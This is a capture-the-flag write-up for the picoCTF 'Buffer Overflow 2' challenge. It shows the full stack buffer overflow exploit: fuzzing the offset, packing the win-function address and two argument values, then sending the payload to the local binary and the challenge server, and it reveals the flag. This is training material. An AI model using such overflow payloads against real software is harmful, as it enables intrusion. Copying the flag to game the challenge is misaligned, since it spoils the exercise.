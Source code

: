 # Buffer Overflow 2

## Description

Control the return address and arguments.

This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/344/vuln)?

You can view source [here](https://artifacts.picoctf.net/c/344/vuln.c). 

And connect with it using 

```bash
nc saturn.picoctf.net 50918
```


## Exploitation

After fuzzing, we can see that the segmentation fault is at address `0x34333231` (the instructon pointer is pointing to that space in memory):

```bash
> cat <(python2 -c "print('U' * 112 + '1234')") | ./vuln

Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU1234
[1]    285183 done                              cat <(python2 -c "print('U' * 112 + '1234')") | 
       285184 segmentation fault (core dumped)  ./vuln


> dmesg | grep vuln | tail -1
[207149.111460] vuln[285239]: segfault at 34333231 ip 0000000034333231 sp 00000000ffffca30 error 14 in libc-2.31.so[f7dc5000+19000]
```

Since we want to jump to implant the memory location where the `win` function starts, we can use the following command to find the memory address and then convert it into little Endian so we can send it into the payload:

```bash
# Get memory address of win function
WIN_MEM_LOCATION=0x`readelf -s vuln | grep win | cut -d" " -f6` # 08049296

python3 -c "import struct;print(struct.pack('<I', $WIN_MEM_LOCATION))"
b'\x96\x92\x04\x08'
```

Adding the `win` address into the payload, we can see that the `win` function is actually called:

```bash
cat <(python2 -c "print('U' * 112 + '\x96\x92\x04\x08')") | ./vuln
Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
Please create 'flag.txt' in this directory with your own debugging flag.
```


Let's create the flag locally and try again to see what happens:

```
❯ cat <(python2 -c "print('U' * 112 + '\x96\x92\x04\x08')") | ./vuln

Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
[1]    286421 done                              cat <(python2 -c "print('U' * 112 + '\x96\x92\x04\x08')") | 
       286422 segmentation fault (core dumped)  ./vuln

❯ dmesg | grep vuln | tail -1

[208481.875568] vuln[286422]: segfault at 0 ip 0000000000000000 sp 00000000ffffca34 error 14 in vuln[8048000+1000]
```

This time it crashes because we didn't supply a return address to the `win` function. 4 bytes after the `EBP` is the `RET` address. 4 bytes after that is the first argument and another 4 bytes after that is the second argument.

![](https://i.stack.imgur.com/w19l1.png)

Since in this case we don't really care about the return address, we can put anything in there. If we review the source code for the `win` function, we can see that it's expecting 2 arguments:

```c
if (arg1 != 0xCAFEF00D)
    return;
if (arg2 != 0xF00DF00D)
    return;
```

So let's convert these memory addresses into little Endian as well:

```python
struct.pack('<I', 0xCAFEF00D)
b'\r\xf0\xfe\xca'

struct.pack('<I', 0xF00DF00D)
b'\r\xf0\r\xf0'
```

And them to the payload after the fuzzed return address to get the flag:

```bash
> cat <(python2 -c "print('U' * 112 + '\x96\x92\x04\x08' + 'UUUU' '\r\xf0\xfe\xca' + '\r\xf0\r\xf0')") | ./vuln

Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
picoCTF{some_flag}
[1]    285206 done                              cat  | 
       285207 segmentation fault (core dumped)  ./vuln
```

And on the remote server:
```bash
 cat <(python2 -c "print('U' * 112 + '\x96\x92\x04\x08' + 'UUUU' '\r\xf0\xfe\xca' + '\r\xf0\r\xf0')") | nc saturn.picoctf.net 57551
Please enter your string: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU
picoCTF{argum3nt5_4_d4yZ_b3fd8f66}
```